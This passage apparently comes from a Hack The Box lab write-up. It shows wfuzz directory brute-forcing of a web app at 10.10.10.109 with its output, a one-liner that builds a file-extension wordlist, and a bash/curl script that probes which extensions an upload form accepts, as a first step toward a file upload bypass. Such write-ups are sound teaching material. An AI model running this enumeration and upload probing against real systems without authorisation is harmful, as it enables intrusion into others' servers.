Let's go deeper with `wfuzz`'s own wordlists.

```
# wfuzz -w common.txt -w extensions_comment.xt --hc 404 http://10.10.10.109/sparklays/design/FUZZ
********************************************************
* Wfuzz 2.3.1 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.10.109/sparklays/design/FUZZFUZ2Z
Total requests: 26600

==================================================================
ID   Response   Lines      Word         Chars          Payload    
==================================================================

007571:  C=200      3 L        8 W           72 Ch        "design - .html"
024304:  C=403     11 L       32 W          312 Ch        "uploads - /"

Total time: 115.6137
Processed Requests: 26600
Filtered Requests: 26598
Requests/sec.: 230.0764
```
Awesome. `wfuzz` finds another page. This is how it looks like.


{% include image.html image_alt="f098ee0c.png" image_src="/6398fd14-7eb4-4724-b98d-fb6ab6907574/f098ee0c.png" %}


The new page exposes a new attack surface at `/changelogo.php` as well.


{% include image.html image_alt="33bd9acb.png" image_src="/6398fd14-7eb4-4724-b98d-fb6ab6907574/33bd9acb.png" %}



### File Upload Bypass

What we are seeing here is a classic file upload attack, specifically by discovering the whitelisted file extensions. To that end, I wrote a `bash` script with `curl` as the main driver and by supplying the script with a wordlist containing a large number of file extensions, I can determine which extensions are whitelisted.

The wordlist is derived from `/etc/mime.types` like so.

```
awk '{ $1 = ""; print $0 }' /etc/mime.types | sed -r -e 's/^ //g' -e '1,26d' -e '/^$/d' | tr ' ' '\n' > extensions.txt
```
The script is shown below.

<div class="filename"><span>filter.sh</span></div>

```bash
#!/bin/bash

EXT=$1
HOST=10.10.10.109
URL=http://$HOST/sparklays/design/changelogo.php
UPLOADS=http://$HOST/sparklays/design/uploads

curl -s \
     -F "file=@info;filename=info.${EXT}" \
     -F "submit=upload+file" \
     $URL \
| sed '1!d' \
| cut -d '<' -f1 \
| grep success &>/dev/null && echo "[+] Uploaded: $UPLOADS/info.${EXT}"
```

[1]: https://www.hackthebox.eu/home/machines/profile/161
[2]: https://www.hackthebox.eu/home/users/profile/5621
[3]: https://www.hackthebox.eu/